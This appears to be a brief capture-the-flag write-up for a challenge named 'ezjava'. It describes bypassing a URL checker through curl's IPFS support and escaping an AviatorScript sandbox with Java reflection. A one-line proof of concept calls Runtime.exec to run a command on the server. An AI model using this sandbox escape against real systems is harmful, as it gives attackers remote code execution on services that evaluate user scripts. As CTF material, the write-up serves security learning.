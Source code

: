 # ezjava
Use internal support for IPFS in latest curl to bypass checker. Use Java reflection to bypass AviatorScript sandbox.

## Exploit
- Host the file on IPFS.
- Use `ipfs://xxx` to ask the server to evaluate the script.
- Use the PoC below to get shell.

```
exec(invoke(getMethod(loadClass(getClassLoader(getClass(constantly(1))),'java.lang.Runtime'),'getRuntime',nil),nil,nil),'id')
```